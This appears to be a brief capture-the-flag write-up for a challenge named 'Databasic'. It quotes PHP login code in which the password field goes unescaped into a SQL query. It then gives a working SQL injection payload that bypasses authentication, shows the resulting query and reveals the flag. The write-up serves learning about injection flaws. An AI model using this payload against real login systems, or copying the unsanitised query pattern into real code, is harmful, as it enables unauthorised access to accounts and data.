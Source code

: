 # Databasic

1. First, lets go through the web and view the source code on the git repository. 
2. Then, we can find out the critical code here : 
    ```
    $query = sprintf("SELECT * FROM haxorz_memberz WHERE login = '%s' AND password = MD5('%s')",
		mysqli_real_escape_string($con, $_POST['login']),
		$_POST['password']
	);
    ```
    [mysqli_real_escape_string()](https://www.php.net/manual/en/mysqli.real-escape-string.php)

    As you can see, the "login" part is filted by the command "mysqli_real_escape_string()", so obviously we can't use sql injection on it. However, lets see the "password" part and we are able to find out that it is not filtered. It's clearly that it can be sql injection.
3. Next, we have to notice a part of the code : 
    ```
    if (@mysqli_num_rows($sql) == 1)
		$auth = TRUE;
    ```
    [mysqli_num_rows()](https://www.w3schools.com/php/func_mysqli_num_rows.asp)

    As you can see, we have to satisfy the situation to get the flag. To reach the goal, we have to use the keyword "limit" to help us. 
4. Here is the payload : 
    ```
    login : admin
    password : ') or 1=1 limit 1 #
    ```
    So the sentence will become : 
    ```
    SELECT * FROM haxorz_memberz WHERE login = 'admin' AND password = MD5('') or 1=1 limit 1 #')
    ```
5. Here is the flag : W3C{wen_eta_mysqli_real_md5_string()?}
